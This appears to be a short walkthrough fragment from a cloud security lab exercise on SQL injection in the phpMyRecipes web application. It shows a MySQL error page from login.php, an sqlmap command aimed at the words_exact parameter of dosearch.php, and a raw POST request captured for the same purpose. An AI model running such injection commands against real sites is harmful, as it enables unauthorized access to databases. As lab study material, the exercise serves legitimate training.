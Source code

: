 ```http

[...]

      <TABLE BORDER=2 CELLPADDING=10 BACKGROUND="/images/paper002.jpg" WIDTH=90%>
        <TR><TD>
We seem to have encountered a database error.  Please send email to
<A HREF="mailto:bugs@bonkoif.com">bugs@bonkoif.com</A> with the
following information:<UL>
<LI>File - login.php<LI>Reason - Cannot perform select<LI>Text - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1</UL><P>📌
        </TD></TR>
      </TABLE>
    </TD>
  </TR>
</TABLE>

<P>&nbsp;</P>
<P>&nbsp;</P>

<P>
<HR>
<FONT CLASS="footer">phpMyRecipes &copy;2004 Todd Palino<BR>
Don't steal anything, because it's free.</FONT></P>

</body>

</html>
```

`sqlmap -u 'https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/dosearch.php' -p 'words_exact' --data='words_exact=' --method=POST --technique=E`

🔄 Alternative 🔄

`vim ./request.txt`:
```http
POST /dosearch.php📌 HTTP/2
Host: foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com
Referer: https://foq9rsyx9porvk529i6tt39dc.us-east-8.attackdefensecloudlabs.com/findrecipe.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

words_all=&words_exact=TEST&words_any=&words_without=&name_exact=&ing_modifier=2📌
```
